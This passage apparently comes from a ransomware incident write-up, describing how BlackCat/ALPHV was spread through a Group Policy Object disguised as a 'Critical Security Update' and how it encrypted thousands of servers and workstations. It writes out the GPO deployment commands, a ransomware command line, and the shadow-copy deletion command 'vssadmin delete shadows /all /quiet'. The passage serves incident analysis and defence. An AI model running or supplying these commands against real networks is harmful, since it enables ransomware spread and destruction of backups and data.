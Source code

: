 **Deployment Method**:
```powershell
# Group Policy Object deployment for maximum spread
New-GPO -Name "Critical Security Update" | 
    New-GPLink -Target "OU=Workstations,DC=manufactureco,DC=local"

# GPO deploys ransomware executable to all systems
# Scheduled to execute at 6:00 AM on September 14, 2024

# Ransomware execution (BlackCat/ALPHV)
.\blackcat.exe --access-token [TOKEN] --paths C:\,D:\,\\fileserver* --skip-folders Windows,ProgramFiles
```

**Encryption Process**:
```mermaid
graph TD
    A[Ransomware Starts] --> B[Kill Processes]
    B --> C[Delete Shadow Copies]
    C --> D[Disable Recovery]
    D --> E[Enumerate Files]
    E --> F[Encrypt Files]
    F --> G[Drop Ransom Notes]
    G --> H[Display Ransom Screen]
    
    B --> B1[Backup Software]
    B --> B2[Database Processes]
    B --> B3[Antivirus]
    
    C --> C1[vssadmin delete shadows /all /quiet]
    
    D --> D1[Disable Windows Recovery]
    D --> D2[Delete Restore Points]
    
    F --> F1[ChaCha20 Encryption]
    F --> F2[RSA-4096 Key]
```

**Encryption Algorithm**:
- **File Encryption**: ChaCha20 (fast, efficient)
- **Key Encryption**: RSA-4096 (asymmetric)
- **File Extension**: `.blackcat`
- **Ransom Note**: `RECOVER-FILES.txt` in every directory

**Systems Encrypted**:
- 2,847 servers (95% of server infrastructure)
- 4,230 workstations
- All file servers (18TB of data)
- Database servers (SAP, SQL)
- Backup servers (with backup files)
- Domain controllers
- Manufacturing network systems

---
